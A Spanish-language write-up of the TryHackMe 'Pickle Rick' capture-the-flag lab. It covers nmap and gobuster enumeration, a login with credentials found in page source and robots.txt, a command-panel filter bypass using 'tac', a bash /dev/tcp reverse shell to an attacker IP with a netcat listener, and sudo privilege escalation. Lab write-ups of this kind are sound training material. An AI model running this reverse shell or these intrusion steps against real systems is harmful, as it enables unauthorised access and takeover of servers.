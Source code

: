 Pickle Rick es un CTF de nivel inicial de THM, en el cual se nos encomienda convertir nuevamente en humano a rick, que en esos momentos se encuentra convertido en pepinillo. Para esa tarea debemos encontrar en la computadora de Rick los 3 ingredientes necesarios para que este regrese a su estado de humano.
Para ello primero realizamos a enumeración y el reconocimiento del sistema investigado
Enumeración
## nmap
Utilizando el comando `nmap -sC -sV 10.10.242.104 -oN nmapPick` obtenemos los siguientes resultados:

![Pasted image 20230218112511](https://user-images.githubusercontent.com/24280145/222928607-be1992f4-4dd1-4fa3-90a8-a47f34a60522.png)

**puertos abiertos**

`http 80`

`ssh 22`

## curl
utilizando el comando  `curl 10.10.242.104 > cPick`

![Pasted image 20230218110137](https://user-images.githubusercontent.com/24280145/222929129-a3ba3365-6c73-4dac-93e1-e80f1da6bb2b.png)

Encontramos un nombre de usuario en el documento HTML 

`Username: R1ckRul3s`


## Gobuster
Utilizando el comando `gobuster -u http://10.10.242.104 -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt` obtenemos lo siguiente

![Pasted image 20230218113243](https://user-images.githubusercontent.com/24280145/222929984-b355969d-1b50-49a6-a771-f3c85499b9b2.png)

Buscamos directorios con extensión .php y .html  `gobuster -u http://10.10.242.104 -t 50 -w /usr/share/wordlists/dirbuster/common.txt -x .php,.html`

**Nota**: La lista common.txt fue extraida de: https://gitlab.com/kalilinux/packages/dirb/blob/f43c03a2bef91118debffd6cec9573f21bb5f9e8/wordlists/common.txt

Utilizamos el comando `sudo mv common.txt /usr/share/wordlists/dirbuster/common.txt` para mover el archivo a la carpeta dirbuster (no es obligatorio)

![Pasted image 20230218120112](https://user-images.githubusercontent.com/24280145/222931429-c6f3160d-2b68-4314-8626-86964a4cc6de.png)

Con este informe conocemos que:
**index.html**: Es la página de inicio
**robots.txt**: contiene la cadena *Wubbalubbadubdub*
**login.php**: Nos muestra el siguietne acceso:


![Pasted image 20230218121122](https://user-images.githubusercontent.com/24280145/222931472-ad4667ac-1308-471a-8f55-769c46c0aebe.png)

# Obtención de acceso
Utilizando el username encontrado en el código *html de la web* y la cadena encontrada en *robots.txt*. Accedemos como usuarios del sistema en el **Potal Login Page**:

`username: R1ckRul3s`

`password: Wubbalubbadubdub`

![Pasted image 20230218121459](https://user-images.githubusercontent.com/24280145/222931603-18fac2c4-282a-44c7-b3c7-8ca1131fdee5.png)

### Ejecutando comandos

`whoami`

![Pasted image 20230218122054](https://user-images.githubusercontent.com/24280145/222931694-116e2af5-70e2-4953-9cba-38fac3088d00.png)

`pwd`


![Pasted image 20230218122147](https://user-images.githubusercontent.com/24280145/222931709-50e0e38b-7484-4872-9cac-169d3a2421e5.png)

`ls`

![Pasted image 20230218122256](https://user-images.githubusercontent.com/24280145/222931737-3a581e02-86e7-4dac-ac5d-5e128010fe91.png)

¡¡Hemos hallado el primer ingrediente...¡¡ pero los comandos estan filtrados de lectura de texto, y no podemos ver el contenido del fichero que contiene el segundo ingrediente

![Pasted image 20230218122725](https://user-images.githubusercontent.com/24280145/222931819-4bf64ac4-2de0-435b-a6ac-f7fe8f0ad763.png)

En este escenario podemos buscar nuevas soluciones (como acceder al sistema) o buscar un comando que si funcione (no este filtrado). realizando la prueba con los comandos `more`,`head`,`vim` ... Realizando prueba y error hallamos el comando `tac`. 


**Nota**: Para conocer los comandos de lectura de texto podemos visitar: https://www.geeksforgeeks.org/tac-command-in-linux-with-examples/

![Pasted image 20230218134055](https://user-images.githubusercontent.com/24280145/222931961-4a6b708e-f7aa-4e61-8116-240356af7a87.png)

**primer ingrediente**: `-r. meeseek hair`

![Pasted image 20230218133953](https://user-images.githubusercontent.com/24280145/222932243-b3b0cb51-e3ad-48d6-97a7-ea6c08317ba8.png)

el archivo `clue.txt` nos da la pista para el siguietne ingrediente:

![Pasted image 20230218123816](https://user-images.githubusercontent.com/24280145/222932262-3ab34109-3715-4cab-a655-3dc7a8efc5a8.png)

*Busca en el sistema de archivos el otro ingrediente.*

# Reverse Shell
Usando el comando `/bin/bash -c 'bash -i >& /dev/tcp/<IP_Atacante>/4444 0>&1'` en **Command Panel** abrimos el acceso al servidor.
posteriormente iniciamos un servidor de escucha con netcat: `nc -lvnp 4444` utilizando el puerto 4444

![Pasted image 20230218125944](https://user-images.githubusercontent.com/24280145/222932303-0d4eb873-a8e6-4dad-ae36-50e53ccec13a.png)

**Una vez dentro del sistema procedemos a navegar en los archivos**

![Pasted image 20230218130911](https://user-images.githubusercontent.com/24280145/222932321-6a4851e3-45a0-4464-844a-d09266cec24f.png)

En el directorio `home/rick/` hallamo el segundo ingrediente

![Pasted image 20230218131156](https://user-images.githubusercontent.com/24280145/222932345-9050b2e3-5386-4c08-818e-52446d8586b4.png)

**Revisando los permisos, hallamos que la carpeta root no es accesible para los usuarios comunes**

![Pasted image 20230218132952](https://user-images.githubusercontent.com/24280145/222932378-d22be2b1-0447-438f-81d5-419e656a7c16.png)

# Escalamiento de privilegios 

En este caso la solución es relativamente sencilla pues el usuario www-data puede ejecutar con permiso sudo

![Pasted image 20230218132803](https://user-images.githubusercontent.com/24280145/222932420-4c878774-1fd7-471a-b0b8-711e63c43e5c.png)

**Ejecutamos bash como administrador**
Posteriormente ingresamos a la carpeta root `cd /root` y obtenemos el 3er ingrediente


